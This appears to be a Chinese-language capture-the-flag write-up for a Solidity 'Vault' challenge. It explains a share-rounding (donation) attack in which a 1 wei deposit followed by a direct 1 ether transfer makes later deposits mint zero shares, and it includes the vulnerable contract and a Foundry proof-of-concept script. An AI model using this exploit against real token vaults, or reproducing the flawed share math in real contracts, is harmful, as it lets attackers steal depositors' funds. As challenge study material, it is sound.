

## Vault（份额舍入）

关键点：`uint` 类型不能存储小数，整数除法会向下取整。

### 目标：

使 `owner` 在撤回投资时损失资金。

### 思路：

观察解题条件：`vault` 合约的余额必须大于 1 ether。随后合约会调用 `deposit` 存入 0.1 ether，而查询攻击者的 `shares` 时结果需要为 0。

合约主要包含存款与取款两个函数。为了让 `vault` 余额大于 1 ether，可以先直接向合约转入 1 ether。

接下来需要让 `shares = 0`。调用 `deposit` 后，只有下面这行代码会增加份额：

```solidity
shares[msg.sender] += newShares;
```

如果 `currentShares == 0`，`amount` 会直接成为新份额，无法得到 0，因此必须让 `currentShares` 不为 0。

份额的计算公式为：

```solidity
newShares = (amount * currentShares) / currentBalance;
```

`newShares` 是 `uint` 类型，小于 1 的计算结果会向下取整为 0。先存入 1 wei，使 `currentShares = 1`；再直接向合约转入 1 ether，使 `currentBalance` 大幅增加。最后题目存入 0.1 ether 时：

```text
newShares = 0.1 ether * 1 / 1 ether = 0
```

这样就能满足 `shares = 0` 的条件。

### 源码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IVault} from "./interfaces/IVault.sol";
import {IERC20} from "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";

contract Vault is IVault {
    address public override owner;
    IERC20 public override token;
    mapping(address => uint256) public override shares;
    uint256 public override totalShares;

    constructor(address _token) {
        owner = msg.sender;
        token = IERC20(_token);
    }

    function deposit(uint256 amount) external override {
        require(amount > 0, "Vault: Amount must be greater than 0");

        uint256 currentBalance = token.balanceOf(address(this));
        uint256 currentShares = totalShares;

        uint256 newShares;
        if (currentShares == 0) {
            newShares = amount;
        } else {
            newShares = (amount * currentShares) / currentBalance;
        }

        shares[msg.sender] += newShares;
        totalShares += newShares;

        token.transferFrom(msg.sender, address(this), amount);
    }

    function withdraw(uint256 sharesAmount) external override {
        require(sharesAmount > 0, "Vault: Amount must be greater than 0");

        uint256 currentBalance = token.balanceOf(address(this));
        uint256 payoutAmount = (sharesAmount * currentBalance) / totalShares;

        shares[msg.sender] -= sharesAmount;
        totalShares -= sharesAmount;

        if (msg.sender == owner) {
            payoutAmount *= 2;
        }

        token.transfer(msg.sender, payoutAmount);
    }
}
```

### POC：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "../src/Vault.sol";
import "forge-std/Script.sol";
import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";

contract Attack is Script {
    Vault vault = Vault(0x91B617B86BE27D57D8285400C5D5bAFA859dAF5F);
    IERC20 token = vault.token();

    function run() external {
        vm.startBroadcast();

        token.approve(address(vault), 1);
        vault.deposit(1);

        token.transfer(address(vault), 1 ether);

        vm.stopBroadcast();
    }
}
```


